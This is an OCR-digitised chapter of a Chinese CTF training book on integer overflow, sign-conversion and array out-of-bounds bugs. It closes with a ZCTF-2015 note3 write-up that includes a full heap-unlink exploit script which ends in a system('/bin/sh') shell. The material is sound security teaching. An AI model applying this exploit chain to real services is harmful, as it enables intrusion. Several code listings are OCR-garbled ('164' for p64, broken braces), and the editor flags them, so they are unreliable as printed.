

???+ abstract "本章摘要"
    本章介绍 CTF PWN 方向中的整型漏洞，从三个角度展开：整型数据宽度溢出（大数据存入小宽度变量导致高位被截断）、符号转换（有符号/无符号数互转引起数值错乱以致绕过条件判断或参数类型不匹配）、以及 index 数组越界（索引值未做边界检查而越界读写栈上数据）。章末以 ZCTF-2015 note3（PWN300）为例，演示整数溢出配合 unlink 伪造堆块改写全局指针的完整利用链。
## 章节导航

上一篇：[第14章 格式化字符串漏洞](第14章 格式化字符串漏洞.md)
下一篇：[第16章 逻辑漏洞](第16章 逻辑漏洞.md)
回到目录：[00-目录](00-目录.md)

## 第15章 整型漏洞

整型漏洞主要是指发生在整型数据上的漏洞，传统的整型溢出是指试图保存的数据超过整型数据的宽度时发生的溢出。这里将针对CTF 赛题类型，主要从3个方面进行介绍，包括整型数据宽度溢出、符号转换、index数组越界等。

### 15.1 宽度溢出

整型数据在计算机中的存储是有特定格式的，一般是按字节进行存储的，不同的整型数据所需要的字节数也不同，这里说的“所需要的字节数”就是该整型数据的宽度，如果数据所要表达的值大于该宽度，则会产生宽度溢出。

整型数据存储通常包含两种模式——大端和小端。

大端存储模式是指数据的高位在前低位在后，小端存储模式是指数据的低位在前高位在后，如图15-1所示。

{ width="72%" }


*图15-1 大端小端存储示意图*


一般情况下，整型数据大多采用小端存储模式存储。在C语言中，常用的整型数据宽度如表15-1所示。

<div style="text-align: center;">表15-1 各数据类型的宽度</div>

| 类型 | 宽度 | 类型 | 宽度 |
| --- | --- | --- | --- |
| int8 | 1 | unsigned short (int) | 2 |
| int16 | 2 | int | *（一般为4，与系统字长有关） |
| int32 | 4 | unsigned int | *（一般为4，与系统字长有关） |
| int64 | 8 | long | 4 |
| bool | 1 | unsigned long | 4 |
| char | 1 | long long | 8 |
| unsigned char | 1 | unsigned long long | 8 |
| short (int) | 2 | enum | *（与系统字长有关） |

整型数据宽度溢出主要出现的情况包括整型数据运算、整型数据赋值等，将字节占用多的整型数据存储在字节占用少的整型数据中，产生宽度溢出情况的示意如图15-2所示。

{ width="56%" }


*图15-2 宽度溢出示意图*

为了更方便地说明宽度溢出的情况，下面用一个简化版的实例来进行具体说明，代码如下：

```c
#include <stdio.h>
unsigned short int part_1;
unsigned short int part_2;
unsigned int part_3;
unsigned short int part_4;
void add_test()
{
    part_3 = part_1 + part_2;
    part_4 = part_1 + part_2;
    printf("part_1(%d): %l1x\n", sizeof(part_1), part_1);
    printf("part_2(%d): %l1X\n", sizeof(part_2), part_2);
    printf("part_3(%d): %l1X\n", sizeof(part_3), part_3);
    printf("part_4(%d): %l1X\n", sizeof(part_4), part_4);
}
int main()
{
    part_1 = 0xFFFF;
    part_2 = 0x2;
    add_test();
}
```

[OCR存疑：printf 格式串中的 %l1x、%l1X 疑为 %llx、%llX（原书排版/OCR 所致），围栏内保留原文未改。]

由上述代码可知，整型数据运算过程中的数据存储示意如图15-3所示，为了方便查看，这里使用大端模式。

{ width="59%" }


*图15-3 数据存储示意图*


在IDA中，查询part_1~part_4的内存地址，如图15-4所示。

{ width="50%" }


*图15-4 内存地址*


将上述代码编译出的程序放入gdb中进行调试，在相加完以后下断点，内存情况如图15-5所示。

{ width="74%" }


*图15-5 内存实际数据*


程序实际执行结果如图15-6所示。

{ width="42%" }


*图15-6 执行结果*


可以看出，part_1+part_4的结果为0x10001，存储到只有两字节的part_4中时，前面的值会被舍弃，只留下后面两字节的数据。

[OCR存疑：此句原文作“part_1+part_4的结果为0x10001”，但按前文代码语义应为 part_1+part_2 的结果为 0x10001（part_4 是存储目标而非加数），保留原文未改。]

???+ tip "本节要点"
    1. 整型数据按字节存储，能容纳的最大值与字节数（宽度）相关，值超过宽度即发生宽度溢出；
    2. 存储分大端（高位在前低位在后）与小端（低位在前高位在后），整型数据多采用小端；
    3. 宽度溢出常见于运算与赋值：把字节占用多的整型存入字节占用少的变量，高位被舍弃；
    4. 实例中 0xFFFF + 0x2 = 0x10001（需 3 字节），存入 2 字节的 part_4 后仅保留 0x0001。
### 15.2 符号转换

符号转换主要是指有符号数与无符号数之间的转换，两者的主要区别在于最高位是否代表符号。

???+ note "定义：有符号数 / 无符号数"
    ==有符号数==的最高位代表符号（0 为正数、1 为负数），且在内存中以补码形式存放；==无符号数==的所有位都用来表示数据位，不区分符号。
无符号数相对比较简单，所有位数都用来表示数据位。

有符号数最高位代表符号（0代表正数、1代表负数），且有符号数在内存中是以补码形式来存放的。具体如下：

1）数据的第一位为符号位。

2）正数的补码：与原码相同。

3）负数的补码：符号位为1，其余位为该数绝对值的原码按位取反后再加1。

下面举例说明，如图15-7所示。

{ width="69%" }


*图15-7 符号转换示意图*


其中，对于有符号数-19088744，存储时的值为0xFEDCBA98，计算过程具体如下。

1）-19088744的绝对值为19088744，存储为00000001001000110100010101101000。

2）其中第一位舍弃不看，其余位取反为 $ *1111110110111001011101010010111 $。

3）将2）中的结果+1，为 $ *1111110110111001011101010011000 $。

4）将3）中的结果补上符号位1，最终结果为

11111110110111001011101010011000，与图15-7中的内容一致。

有符号数若为正数，则与无符号数所表示的值是一致的；若为负数，则与无符号数所表示的数值相差很大，这也是符号转换的问题所在。==记住“符号一换，正负翻转、数值骤变”，比较与传参时要格外小心。==

一般来说，符号转换容易在以下情况产生漏洞。

1）条件判断；将无符号数与有符号数进行强制转换后，数值相差很大，从而绕过条件判断。

2）参数传递；有些函数（尤其是系统库函数）对参数有特定的要求，但是使用时并没有严格按照参数的类型进行参数传递。

对于情况1，下面列举一个简单的例子，代码如下：

```c
void vul_func(unsigned int arg)
{
    int tmp_v = arg;
    if (tmp_v > 100)
    {
        arg = 1;

}
else
{
    arg = 2;
}
.....
}
```

[OCR存疑：此段反编译代码的花括号配对与缩进错乱（`arg = 1;` 后多出一行闭合 `}` 且 `else` 前少一个 `}`），疑为 OCR/原书排版所致，围栏内保留原文未改。]

原本考虑的是无符号数arg大于100和小于等于100这两种情况：大于100，将arg赋值为1；小于等于100，将arg赋值为2。但是在实际运行中，代码进行符号转换赋值后，将超过0x80000000的数赋值给tmp_v后，其值为负数，最终得到arg的值为2，与原本的想法不一致。

对于情况2来说，很多库函数使用不当就会出现问题，如参数为有符号数却使用无符号数作为参数，或者与之相反。

???+ tip "本节要点"
    1. 有符号/无符号数的核心区别是最高位是否代表符号；
    2. 负数以补码形式存放：符号位为 1，其余位为绝对值原码按位取反后加 1；
    3. 同一正数有符号与无符号表示一致，负数则二者数值相差极大，这是符号转换漏洞的根源；
    4. 漏洞易现于两类场景：条件判断（转换后数值突变绕过检查）与参数传递（实参类型不匹配库函数要求）。
### 15.3 数组越界

这种漏洞主要是由于检查不严格造成的，如对数组内存的索引超出了数组的预设范围，从而可以访问到其他数据。这种漏洞，在CTF赛题中出现的次数比较多。一般来说，数组越界功能相对比较强大，如果显示数组内容，可以实现信息泄露；如果可以修改数组内容，可以实现数据篡改。

数据访问的示意如图15-8所示。

{ width="70%" }


*图15-8 数据访问示意图*


正常访问时，索引值位于预设的范围之内，但是如果判断不严格，超出了边界，就会访问到其他部分的数据，从而达到泄露信息或者修改数据的目的。

下面举个简单的例子进行说明，代码如下：

```c
#include <stdio.h>
int test_func(unsigned int t_v1, unsigned int t_v2)
{
    int i;
    int index0, index1, index2;
    int stack_val_1;
    int stack_val_2;
    int array_info[20];
    for (i = 0; i < 20; i++)
    {
        array_info[i] = i;
    }
    stack_val_1 = t_v1;
    stack_val_2 = t_v2;
    scanf("%d %d %d", &index0, &index1, &index2);
    // -1 25 29
    printf("%x\n", array_info[index0]);
    printf("%x\n", array_info[index1]);
    printf("%x\n", array_info[index2]);
}
int main()
{
    test_func(0xdeadbeef, 0xcafe2333);
}
```

在这个例子中，数组array_info的范围空间大小是20，然后读取3个索引值，打印出相应的数组值，因为此处没有限制索引值的取值范围，所以可为任意值。当其不在0~19范围内时，可以打印出栈上存储的数据。测试如下。

输入：

-1 25 29

结果如图15-9所示。

{ width="19%" }


*图15-9 运行结果*


用gdb进行调试，在打印时下断点，查看内存情况，如图15-10所示。

{ width="73%" }


*图15-10 内存数据*


由上图可见，内存中的数组是连续排放的一块内存，当输入的index未落在其申请的空间范围内时，可以访问到栈上其他部分的数据。

???+ tip "本节要点"
    1. 数组越界源于索引未做边界检查，越界后可读/写范围之外的数据；
    2. 越界危害双向：可显示数组内容则信息泄露，可修改数组内容则数据篡改；
    3. 示例中 array_info 大小为 20（合法索引 0~19），scanf 读入的 index 无范围限制，故可打印栈上任意数据；
    4. 数组在内存中连续排放，越界访问可触及相邻的栈变量（如 stack_val_1、stack_val_2）。
### 15.4 真题解析

本节只看一道题——{ZCTF-2015}note3(PWN300)。

该题的主要问题在edit中，如图15-11所示。

```c
puts("Input the id of the note");
id = get_long_400909();
id t = id - 7 * ((signed int64)((unsigned int128)(0x4924924924924925LL * id) >> 64)) 1) - (id >> 63));
if (id - 7 * ((signed int64)((unsigned int128)(0x4924924924924925LL * id) >> 64)) 1) - (id >> 63)) >= id)

ptr = global_content_size_6020C8[id_t];
if (ptr)

puts("Input the new content");
get_buff_400800(global_content_size_6020C8[id_t], (int64)(&global_cur_ptr_6020C8)[8 * (id_t + 8)], 10);
global_cur_ptr_6020C8 = global_content_size_6020C8[id_t];
LODWORD(ptr) = puts("Edit success");
}
else

LODWORD(ptr) = puts("please input correct id");
return (signed int)ptr;
```

*图15-11 note3程序edit功能的反编译代码*


输入的id经过了一系列运算。在get_long函数中，通过调用atol

函数对id进行转换，当len<0时，使len=-len，这里产生了一个整型数

据溢出问题，因为0x8000000000000000=-0x8000000000000000。整数型溢出关键点如图15-12所示。

```c
int64 get_long_4009B9()

__int64 result; // rax@3
__int64 v1; // rcx@3
__int64 len; // [sp+8h] [bp-38h]@1
char nptr[40]; // [sp+10h] [bp-30h]@1
__int64 v4; // [sp+38h] [bp-8h]@1

v4 = *MK_FP(_FS_, 40LL);
get_buff_4008DD(nptr, 32LL, 10);
len = atol(nptr);
if (len < 0)
    len = -len;
result = len;
v1 = *MK_FP(_FS_, 40LL) ^ v4;
return result;
```

*图15-12 整型数据溢出关键点*


0x8000000000000000000的值为-1，因而导致索引为全局结构体数组中的前一个指针。其为当前的活跃指针，如图15-13所示。

[OCR存疑：此句“0x8000000000000000000的值为-1”表述有误且位数疑多写（前文为 0x8000000000000000，即 -2^63），应为“索引为 -1，指向全局结构体数组中前一个指针”，保留原文未改。]

```asm
.bss:00000000006020C0 |; char *global_cur_ptr_6020C0
.bss:00000000006020C0 global_cur_ptr_6020C0 dq ? ;
.bss:00000000006020C0
.bss:00000000006020C8 ; char *global_content_size_6020C8[]
.bss:00000000006020C8 global_content_size_6020C8 dq 0Eh dup(?)
.bss:00000000006020C8
```

*图15-13 全局数组布局情况*


执行edit时，id_t为-1；与其对应的长度不再是size，而是第七个堆块的指针，所以可以读很长的内容，从而覆盖后面的堆块，代码如下：

```c
get_buff_4008DD(global_content_size_6020C8[id_t],
(__int64)(&global_cur_ptr_6020C0)[8 * (id_t + 8)], 10);
global_cur_ptr_6020C0 = global_content_size_6020C8[id_t];
```

这里可以采用unlink的方式，在内容中构造假堆块，最终改写全局指针。利用代码如下：

```python
from zio import *
from pwn import *
#ip = 1.192.225.129
#target = "./note3"
target = ("115.28.27.103", 9003)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m,

print_write = w_m)
return io

def new_note(io, length_t, content_t):
    io.read_until("option--->\n")
    io.writeline("1")
    io.read_until("content:(less than 1024)\n")
    io.writeline(str(length_t))
    io.read_until("content:\n")
    io.writeline(content_t)

def delete_note(io, id_t):
    io.read_until("option--->\n")
    io.writeline("4")
    io.read_until("id of the note:\n")
    io.writeline(str(id_t))

def edit_note(io, id_t, content_t):
    io.read_until("option--->\n")
    io.writeline("3")
    io.read_until("id of the note:\n")
    io.writeline(str(id_t))
    io.read_until("content:")
    io.writeline(content_t)

def pwn(io):
    new_note(io, 0x80, 'aaaaaa')
    new_note(io, 0x80, 'bbbbbb')
    new_note(io, 0x80, 'cccccc')
    new_note(io, 0x80, 'dddddd')
    new_note(io, 0x80, 'eeeeeee')
    new_note(io, 0x80, 'ffffff')
    new_note(io, 0x80, '/bin/sh;')

target_id = 2

edit_note(io, target_id, '111111')

# useful_code --- begin
# prepare args
arch_bytes = 8
heap_buff_size = 0x80
# node1_addr = &p0
node1_addr = 0x6020C8 + 0x08 * target_id

pack_fun = 164

heap_node_size = heap_buff_size + 2 * arch_bytes #0x8

p0 = pack_fun(0x0)
p1 = pack_fun(heap_buff_size + 0x01)
p2 = pack_fun(node1_addr - 3 * arch_bytes)
p3 = pack_fun(node1_addr - 2 * arch_bytes)
#p[2]=p-3
#p[3]=p-2
#node1_addr = &node1_addr - 3

node2_pre_size = pack_fun(heap_buff_size)
node2_size = pack_fun(heap_node_size)
data1 = p0 + p1 + p2 + p3 +

"".ljust(heap_buff_size - 4 * arch_bytes, '1') +
node2_pre_size + node2_size

#useful_code --- end

#edit node 1: overwrite node 1 -> overflow node 2
edit_note(io, -9223372036854775808, data1)
#edit_note(io, 1, score, data1)
#delete node 2, unlink node 1 -> unlink
#delete_a_restaurant(io, 2)
delete_note(io, target_id + 1)

alarm_got = 0x0000000000602038
puts_plt = 0x0000000000400730
free_got = 0x0000000000602018

data1 = 164(0x0) + 164(alarm_got) + 164(free_got) + 164(free_got)
edit_note(io, target_id, data1)

data1 = 164(puts_plt)[:6]

io.gdb_hint()
edit_note(io, target_id, data1)

#io.read_until("option--->>\\n")
#io.writeline("3")
#io.read_until("id of the note:\n")
#io.writeline(164(atol_got))

#data = io.read_until("\\n")
#print [c for c in data]

delete_note(io, 0)
data = io.read_until("\\n")[:-1]
print [c for c in data]

alarm_addr = 164(data.ljust(8, "\x00"))
print "alarm_addr:", hex(alarm_addr)

elf_info = ELF("./libc-2.19.so")
#elf_info = ELF("./libc.so.6")
alarm_offset = elf_info.symbols["alarm"]
system_offset = elf_info.symbols["system"]

libc_base = alarm_addr - alarm_offset
system_addr =libc_base + system_offset
data = 164(system_addr)[:6]
edit_note(io, 1, data)

delete_note(io, 6)
io.interact()

io = get_io(target)
pwn(io)
```

[OCR存疑：此利用脚本中 `pack_fun = 164` 及多处 `164(...)` 疑为原书排版把函数名 `p64` 错印（如 `p64(0x0)`、`p64(alarm_got)`、`p64(puts_plt)[:6]` 等），且 print 语句为 Python2 风格、`data = p0 + p1 + p2 + p3 +` 后跟换行连接，均保留原文未改。]

???+ tip "本节要点"
    1. note3 的问题在 edit 功能：id 经过 atol 转换，当 len<0 时取负号 len=-len，触发整数溢出；
    2. 0x8000000000000000 = -2^63，取负后仍为自身，导致 id 可绕过非负检查而为 -1；
    3. id_t=-1 使长度字段不再是 size 而是相邻指针，从而可读超长内容并覆盖后续堆块；
    4. 利用链：整数溢出 → 越界读写 → unlink 伪造假堆块 → 改写全局指针 → 泄露 libc 地址 → 劫持函数（system）拿 shell。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. 宽度溢出不是“报错中途停止”，而是高位被静默舍弃后再继续运行，结果看似正常实则出错，容易忽略。
    2. 负数与无符号数互转时数值会剧烈变化，条件判断里一旦混用，==（有符号）负数会被解释成极大的无符号数（或反之）从而绕过检查==。
    3. `0x8000000000000000`（-2^63）取负仍等于自身，如果只靠 `len<0` 取负来做“归一化”，最小负值会被漏过，产生索引为 -1 的越界。
??? note "自测题"
    **基础**
    1. 什么是整型宽度溢出？大端与小端存储模式有什么区别？
    2. 简述有符号数与无符号数的本质区别，以及负数补码的计算步骤。
    3. 举例说明符号转换漏洞常见的两类触发场景。
    4. 数组越界漏洞的成因是什么？能造成哪两类危害？
    5. 在 15.1 节的实例中，0xFFFF 与 0x2 相加的结果是多少？存入 unsigned short 后最终值是多少？为什么？
    
    **进阶**
    6. 为什么说 `len = -len` 在 `len` 为 `0x8000000000000000` 时会产生整数溢出？其结果是什么？
    7. note3 中 id_t 为 -1 时，为什么能读出远超 size 的内容并覆盖相邻堆块？
    8. note3 的利用链大致包含哪几个环节（从整数溢出到最终拿 shell）？
    9. 数组越界能同时做到“信息泄露”和“数据篡改”，请分别说明二者对应的前提条件。
    
    **参考答案**
    1. 整数保存的值超过其数据宽度（字节数）时发生溢出，把字节占用多的数据存入字节占用少的变量时高位被舍弃；大端是高位在前低位在后，小端是低位在前高位在后，整型数据通常用小端。
    2. 有符号数的最高位代表符号（正数补码与原码相同，负数补码为符号位 1 + 绝对值原码按位取反再加 1）；无符号数所有位都表示数据位。
    3. 条件判断（有/无符号互转后数值突变绕过判断）与参数传递（实参类型不匹配库函数对参数的特定要求）。
    4. 因未严格检查索引范围，索引超出数组预设范围而访问到其他数据；显示内容可信息泄露，修改内容可数据篡改。
    5. 0xFFFF + 0x2 = 0x10001（需 3 字节）；存入 2 字节的 unsigned short 后高位 0x1 被舍弃，只剩 0x0001。
    6. `0x8000000000000000` 即 -2^63，取负后仍等于自身，最小负值无法被“取绝对值”化正，等于漏掉了该负数输入，最终 id 可为 -1。
    7. id_t=-1 时长度字段不再是 size，而是第七个堆块的指针（相邻指针），把它当长度用便能读很长的内容，越界写入覆盖后续堆块。
    8. 整数溢出使 id 为 -1 → 越界读写超长内容 → 内容中构造假堆块用 unlink 改写全局指针 → 泄露 libc 地址计算 libc_base → 篡改 GOT 使 delete 调到 system("/bin/sh") 拿 shell。
    9. 信息泄露前提是能“读”越界位置的数组内容；数据篡改前提是能“写”越界位置的数组内容。
## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*